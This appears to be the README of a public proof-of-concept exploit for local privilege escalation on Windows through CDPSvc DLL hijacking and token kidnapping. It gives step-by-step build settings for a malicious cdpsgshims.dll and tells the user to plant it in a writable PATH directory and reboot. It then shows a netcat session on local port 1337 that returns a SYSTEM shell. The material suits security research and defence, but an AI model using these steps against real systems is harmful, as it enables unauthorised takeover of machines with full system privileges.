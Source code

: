 # CDPSvc DLL Hijacking - From LOCAL SERVICE to SYSTEM

<p align="center">
  <img src="/demo.gif">
</p>


## Description 

For more information please visit this [blog post](https://itm4n.github.io/cdpsvc-dll-hijacking/).

/!\ __This technique works only if the target machine has less than 3.5GB of RAM__! Otherwise each service runs in a separate process and the Token Kidnapping technique is therefore useless.

## How to compile 

1) Open Visual Studio and create a new __C++ Console Application__ project.  
2) Replace the content of the main source file with the content of __cdpsgshims.cpp__.  
3) Select __Release__ and __x86__/__x64__ depending on the architecture of the target machine.  
4) Open __Project__ > __Properties__ (and make sure the selected platform - __Win32__/__x64__ - is correct)   
    - __General__ > __Configuration Type__ -> `Dynamic Library (.dll)`  
    - __C/C++__ > __Code Generation__ > __Runtime Library__ -> `Multithread (/MT)`  
5) __Build solution__  


## Usage 

1) __Rename__ the output file as __cdpsgshims.dll__.  
2) Copy it into a __PATH directory__ where you have __Write access__.  
3) __Reboot__ (or stop/start CDPSvc as an administrator).  
4) Use a tool such as `nc.exe` to __connect to the local port 1337__.  

```
C:\TOOLS\>nc64.exe 127.0.0.1 1337
[*] Searching for a SYSTEM token...
[+] SYSTEM token found.
[+] CreateProcessAsUser() OK
Microsoft Windows [version 10.0.18362.476]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt auhtority\system
```

/!\ At this point, I'd suggest to stop the service, delete the DLL and restart the service. Otherwise you won't be able to delete the file. Your shell won't die because it runs in a separate process. 
